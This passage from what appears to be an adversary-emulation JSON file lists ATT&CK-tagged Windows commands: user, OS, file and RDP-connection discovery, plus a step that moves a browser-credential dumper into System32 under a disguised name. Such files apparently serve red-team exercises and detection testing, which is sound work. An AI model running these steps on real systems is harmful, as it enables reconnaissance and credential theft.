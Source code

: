```json
      "attack_id": "T1547.001"
    },
    {
      "ability_id": "e870a202-354f-4214-82e6-c5f88cb33b65",
      "platform": "windows",
      "commands": {
        "proc": "whoami.exe"
      },
      "privilege": "Unknown",
      "tactic": "discovery",
      "technique": "System Owner/User Discovery",
      "attack_id": "T1033"
    },
    {
      "ability_id": "90cbd004-d5e9-4b05-9abe-12b93f77ede3",
      "platform": "windows",
      "commands": {
        "cmd": "reg query \"HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\" /v ProductName &\nreg query \"HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\" /v CurrentMajorVersionNumber &\nreg query \"HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\" /v CurrentMinorVersionNumber &\nreg query \"HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\" /v CurrentBuild\n"
      },
      "privilege": "Unknown",
      "tactic": "discovery",
      "technique": "System Information Discovery",
      "attack_id": "T1082"
    },
    {
      "ability_id": "fa3ea4c1-c980-41b1-be78-c8c932d68e98",
      "platform": "windows",
      "commands": {
        "cmd": "dir /s /b C:\\ > dir.out\n"
      },
      "privilege": "Unknown",
      "tactic": "discovery",
      "technique": "File and Directory Discovery",
      "attack_id": "T1083"
    },
    {
      "ability_id": "73decaa1-5ba3-4739-812d-633929a158fd",
      "platform": "windows",
      "commands": {
        "cmd": "netstat -ano | findstr 3389\n"
      },
      "privilege": "Unknown",
      "tactic": "discovery",
      "technique": "System Network Connections Discovery",
      "attack_id": "T1049"
    },
    {
      "ability_id": "9a438a2a-c95b-4fd2-a29f-8b1250fc3adc",
      "platform": "windows",
      "commands": {
        "cmd": "move .\\dumpWebBrowserCreds.exe C:\\Windows\\System32\\oradump.exe\n"
      },
      "privilege": "Unknown",
      "tactic": "command-and-control",
      "technique": "Ingress Tool Transfer",
      "attack_id": "T1105"
    },
    {
      "ability_id": "1da1b17e-66fd-4f39-bf10-203570a62624",
      "platform": "windows",
```